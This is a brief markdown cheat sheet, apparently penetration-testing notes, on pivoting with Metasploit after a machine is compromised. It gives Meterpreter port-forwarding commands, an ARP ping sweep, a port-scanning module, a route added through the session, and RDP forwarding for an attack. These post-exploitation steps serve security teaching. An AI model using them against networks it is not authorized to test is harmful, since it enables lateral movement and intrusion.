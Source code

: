 # Metasploit Port Forwarding

## Compromised Machine is Running Services that are Only Accessible from within the Network and that Machine

* To access that Port we can do this in Meterpreter:

```bash
portfwd add -l <attacker port> -p <victim port> -r <victim ip>
```

```bash
portfwd add -l 3306 -p 3306 -r 192.168.222
```

* now we can access this port on our machine locally like this

```bash
nc 127.0.0.1 3306
```

## Ping-Sweep the Network

* scan the network to see what devices we can target
* in this example we already have a meterpreter shell on a windows machine with SYSTEM privileges
* this command will output all the devices on the network

```bash
meterpreter > run arp_scanner -r 192.168.1.0/24
```

## Scan Each Host

* now that there is a list of all available machines, port scan them
* port scan through Metasploit, using this module:

```bash
use auxiliary/scanner/portscan/tcp
```

* run that module and it will only scan machines in the network we are already on
* connect us into the second network
* on the already pwn'd machine, run this command

```bash
ipconfig
```

* now  add the second network as a new route in Metasploit
* background our session, and then do this

```bash
#the ip address and the subnet mask, and then the meterpreter session
route add 192.168.1.101 255.255.255.0 1
```

* now run our port scanning module

```bash
use auxiliary/scanner/portscan/tcp
```

## Attack a specific port

* in order to attack a specific port, forward it like this

```bash
portfwd add -l 3389 -p 3389 -r 192.168.1.222
```

## References

* This is a good video-explanation
* [https://www.youtube.com/watch?v=c0XiaNAkjJA](https://www.youtube.com/watch?v=c0XiaNAkjJA)
* [https://www.offensive-security.com/metasploit-unleashed/pivoting/](https://www.offensive-security.com/metasploit-unleashed/pivoting/)
* [http://ways2hack.com/how-to-do-pivoting-attack/](http://ways2hack.com/how-to-do-pivoting-attack/)

